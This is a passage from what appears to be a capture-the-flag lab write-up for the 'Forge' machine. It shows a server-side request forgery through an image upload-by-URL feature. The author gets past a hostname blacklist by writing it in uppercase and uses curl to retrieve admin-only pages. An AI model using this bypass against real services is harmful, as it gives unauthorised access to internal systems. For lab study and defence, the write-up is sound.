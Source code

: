 We have found another vhost. Let's add it to the host file and check out both sites. 
![The welcome pain for forge.htb](main_dom.png)

![The page for admin.forge.htb](admin_dom.png)

The admin page only allows us to access it via localhost. Checking out the upload tab for the main site we see that we can upload images from an url.

![The upload tab](upload.png)

If attempt to upload an image hosted at `http://admin.forge.htb` we get told the adress is blacklisted.

![](blacklist.png)

However, internet adresses are only case sensitive for anything after the domain name, meaning if we submit the url `http://ADMIN.FORGE.HTB` it will point towards the same site. Doing this successfully sidesteps the blacklist.
![Successfully received an image of the admin.forge.htb page](success.png)
If we follow the link we get told the image can't be displayed since it contains errors. Using curl to get the address instead gives us the HTML code for the admin page.
```console
┌──(bitis㉿workstation)-[~/htb/Machines/Forge]
└─$ curl http://forge.htb/uploads/nLqwXj3lfwRHmcIyKutx
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br><br>
    <br><br><br><br>
    <center><h1>Welcome Admins!</h1></center>
</body>
</html>                  
```
As we can tell, the page also contains an announcement directory. Let's take a look through the same functionality. 
```console
┌──(bitis㉿workstation)-[~/htb/Machines/Forge]
└─$ curl http://forge.htb/uploads/QEHi5NlzSVWCFpcAqGbc
<!DOCTYPE html>
<html>
<head>
    <title>Announcements</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/announcements.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
```